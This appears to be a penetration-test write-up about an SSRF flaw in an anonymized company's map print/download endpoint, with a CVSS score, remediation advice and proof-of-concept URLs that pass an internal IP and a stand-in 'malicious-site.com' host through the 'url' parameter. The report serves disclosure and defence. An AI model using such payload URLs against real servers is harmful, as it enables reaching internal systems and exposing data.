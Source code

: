 ```yaml
---
layout: post
title: 'IT Company Web Application PT'
tags:
 - web
 - real-engagement
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: red
---
```


No images (images for the step-by-step PoC are essential as evidence but will not be provided
) or references will be provided, as this assessment was a real engagement. Additionally, all URLs and functionalities have been anonymized to ensure privacy and compliance with non-disclosure agreements (NDAs). {: .lead} <!--break-->

# IT Company

## Type of activity and objectives
The objective of this engagement was to conduct a web application penetration test for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from the outside, to prevent unauthorized access, compromise and data exfiltration.
## Scope of evaluation
The evaluation was focused on the exposed web application. This scope encompassed assessing the security and potential vulnerabilities within this surface.
## Executive Summary 
The assessment of the target application identified a Server-Side Request Forgery (SSRF) vulnerability. SSRF is a security vulnerability that allows an attacker to manipulate the server into making unintended network requests to internal or external resources. Exploiting this vulnerability could potentially lead to data exposure, service disruption, and unauthorized access to sensitive information.
## Finding Summary
- SSRF
## Attack storyline or vulnerabilities with CVSS, CVE and remediations
### SSRF
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
#### Proof of Concept (PoC)

1. URL: `.it/maps/api/v1/print/download?url=http%3a%2f%2f10.150.56.238%3a8080%2f`
   
   This URL appears to be susceptible to SSRF. By providing a specially crafted `url` parameter, we can attempt to access internal or external resources.

   Example:
   `.it/maps/api/v1/print/download?url=http://malicious-site.com/malicious-file`

2. URL: `.it/maps/api/v1/print/download?url=https%3a%2f%2f.it%2fgeoserver%2fp_bzAdministrativeUnits`

   Similar to the previous URL, this one is also vulnerable to SSRF. The provided `url` parameter seems to accept URLs as inputs, which can be manipulated to request arbitrary resources.

   Example:
   `.it/maps/api/v1/print/download?url=https://malicious-site.com/malicious-file`

By using the provided URLs and manipulating the `url` parameter, an attacker could attempt to trigger unintended requests to external or internal resources. This vulnerability could potentially lead to unauthorized data access or other security risks. To mitigate this vulnerability, ensure proper input validation, restrict outgoing requests to trusted domains, and follow best practices for SSRF prevention.

#### Remediations
- Input Validation and Whitelisting: Validate and sanitize user-provided input thoroughly before making any external requests. Use whitelists of allowed domains or IP addresses to restrict the destinations of requests.

- Use Proper Libraries: If your application needs to make requests to external resources, use well-maintained libraries or modules that offer built-in protections against SSRF. These libraries might have features like URL validation and restriction.

- Bound IP Ranges and Ports: If possible, configure the server to only allow requests to specific IP ranges or ports. This can help prevent SSRF attacks by restricting where requests can be sent.

- Use DNS Resolution Safeguards: Prevent the SSRF vulnerability by using DNS resolution safeguards, such as forcing DNS resolution through a proxy that only resolves safe domains.

- Avoid User-Controlled URLs: Avoid making requests to URLs provided by users unless necessary. If user-controlled URLs are needed, ensure that they go through rigorous validation and sanitization.

- Network Segmentation: Isolate your application's server from internal systems by using network segmentation. This can prevent SSRF attacks from reaching sensitive internal resources.
